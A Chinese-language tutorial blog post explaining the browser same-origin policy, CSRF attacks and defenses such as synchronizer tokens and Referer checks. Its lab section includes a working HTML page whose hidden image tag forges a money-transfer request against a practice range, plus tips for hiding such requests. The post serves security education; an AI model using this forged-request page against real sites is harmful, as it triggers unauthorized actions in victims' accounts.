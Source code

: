 ```yaml
---
date: 2021-01-28
title: 浏览器的同源策略与跨站请求伪造（CSRF）
#subtitle: 
categories: [web]
tags: [web,安全]
---
```


### 定义

同源策略是指在Web浏览器中，允许某个网页脚本访问另一个网页的数据，但前提是这两个网页必须同源。此策略可防止某个网页上的恶意脚本通过该页面的文档对象模型访问另一网页上的敏感数据。

同源的判断如下：

* 协议相同
* 域名相同
* 端口相同

### 应用

同源策略对Web应用程序具有特殊意义，因为Web应用程序广泛依赖于cookie来维持用户会话，所以必须将不相关网站严格分隔，以防止丢失数据泄露。

### 同源比较

下表列出哪些URL与http://www.example.com/dir/page.html 属于相同来源

| http://**en.example.com**/dir/other.html                     | 否   | 不同域名                                                     |
| ------------------------------------------------------------ | ---- | ------------------------------------------------------------ |
| http://**example.com**/dir/other.html                        | 否   | 不同域名（需要完全匹配）                                     |
| **http://**username:password@www.example.com/dir2/other.html | 是   | 只有路径不同                                                 |
| http://v2.www.example.com/dir/other.html                     | 否   | 不同域名（需要完全匹配）                                     |
| http://www.example.com:**81**/dir/other.html                 | 否   | 不同端口（若未标明，http:// 默认端口号为80）                 |
| **http://www.example.com**/dir/page2.html                    | 是   | 只有路径不同                                                 |
| **http://www.example.com**/dir2/other.html                   | 是   | 只有路径不同                                                 |
| **https**://www.example.com/dir/other.html                   | 否   | 不同协议（[https](https://zh.wikipedia.org/wiki/Https)和[http](https://zh.wikipedia.org/wiki/Http)） |

### 其他

* 源的继承：在页面中通过 `about:blank` 或 `javascript:` URL 执行的脚本会继承打开该 URL 的文档的源，因为这些类型的 URLs 没有包含源服务器的相关信息。
* 跨源访问：可以使用 CORS 来允许跨源访问。CORS 是 HTTP 的一部分，它允许服务端来指定哪些主机可以从这个服务端加载资源。
* 源的更改：满足某些限制条件的情况下，页面是可以修改它的源。脚本可以将 document.domain 的值设置为其当前域或其当前域的父域。如果将其设置为其当前域的父域，则这个较短的父域将用于后续源检查。

### 缺陷

同源策略仅适用于脚本，这意味着某网站可以通过相应的HTML标签访问不同来源网站上的图像、CSS和动态加载脚本等资源。而**跨站请求伪造（CSRF）**就是利用同源策略不适用于HTML标签的缺陷。

### CSRF（跨站请求伪造）

* 定义：挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。
* 与XSS的比较：XSS利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。
* 攻击方法：攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。
* 特点：攻击者并不能通过CSRF攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户的浏览器，让其以用户的名义运行操作。

### 攻击实践

此处以必火靶场的CSRF-GET型攻击进行实践。

[靶场地址](http://www.nanhack.com/payload/xss/csrf1.php)

<img src="https://i.loli.net/2021/01/28/OvsXaEwmDHkrVKc.png" alt="image-20210128110300151" style="zoom: 50%;" />

正常转账操作：http://www.nanhack.com/payload/xss/csrf1.php?name=admin&money=10

恶意攻击者页面：http://www.nanhack.com/payload/xss/csrf1.php

访问恶意攻击者页面产生CSRF请求： http://www.nanhack.com/payload/xss/csrf1.php?name=zsm&money=1000

<img src="https://i.loli.net/2021/01/28/g3e5GyOxVK9LcqI.png" alt="image-20210128111355278" style="zoom:67%;" />

打开恶意攻击页面，发现是一个图片，提示：你的账户 钱少了。

返回查看，果然，账户少了1000元。

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
    <title>你的账户钱少了吧</title>
    <!-- <script>alert('你的账户钱少了吧！！😳');</script> -->
</head>
<body>
	<img src="http://xss.tv/meinv/tila.jpg" width="30%">
<img src="http://www.nanhack.com/payload/xss/csrf1.php?name=zsm&money=1000">
<!-- <a href="http://www.nanhack.com/user.php">返回用户管理</a> -->

</body>
</html>
```

`<img src>`中的链接就是构造了一个“转账”链接。

但是这种恶意链接构造的CSRF隐蔽性很低，很容易被发现。

可以利用一些更加隐藏的方式：

* CSS中background属性里的url链接
* 利用a标签
* 设置iframe的style为display:none

### 防御措施

* 令牌同步

  令牌同步模式（英语：Synchronizer token pattern，简称STP）。原理是：当用户发送请求时，服务器端应用将令牌（token，一个保密且唯一的值）嵌入HTML表格，并发送给客户端。客户端提交HTML表格时候，会将令牌发送到服务端，令牌的验证是由服务端实行的。令牌可以通过任何方式生成，只要确保随机性和唯一性。这样确保攻击者发送请求时候，由于没有该令牌而无法通过验证。

  局限性：会导致服务端的复杂度升高，复杂度源于令牌的生成和验证。因为令牌是唯一且随机，如果每个表格都使用一个唯一的令牌，那么当页面过多时，服务器由于生产令牌而导致的负担也会增加。而使用会话（session）等级的令牌代替的话，服务器的负担将没有那么重。

* 检查Referer字段

  HTTP头中有一个Referer字段，这个字段用以标明请求来源于哪个地址。在处理敏感数据请求时，通常来说，Referer字段应和请求的地址位于同一域名下。而如果是CSRF攻击传来的请求，Referer字段会是包含恶意网址的地址，这时候服务器就能识别出恶意的访问。

  局限性：因其完全依赖浏览器发送正确的Referer字段。虽然http协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其Referer字段的可能。

* 添加校验token

  由于CSRF的本质在于攻击者欺骗用户去访问自己设置的地址，所以如果要求在访问敏感数据请求时，要求用户浏览器提供不保存在cookie中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法再运行CSRF攻击。这种数据通常是窗体中的一个数据项。服务器将其生成并附加在窗体中，其内容是一个伪随机数。当客户端通过窗体提交请求时，这个伪随机数也一并提交上去以供校验。正常的访问时，客户端浏览器能够正确得到并传回这个伪随机数，而通过CSRF传来的欺骗性攻击中，攻击者无从事先得知这个伪随机数的值，服务端就会因为校验token的值为空或者错误，拒绝这个可疑请求。

### 参考文献

1.  IETF [rfc:6265 HTTP State Management Mechanism, Apr, 2011]
2. Kemp, John. Security on the Web. 2011-02-04 [2018-07-24]. 
3.  Ristic, Ivan. Apache Security. O'Reilly Media. 2005: 280. ISBN 0-596-00724-8.
4.  阮一峰的网络日志
5.  MDN Web Docs

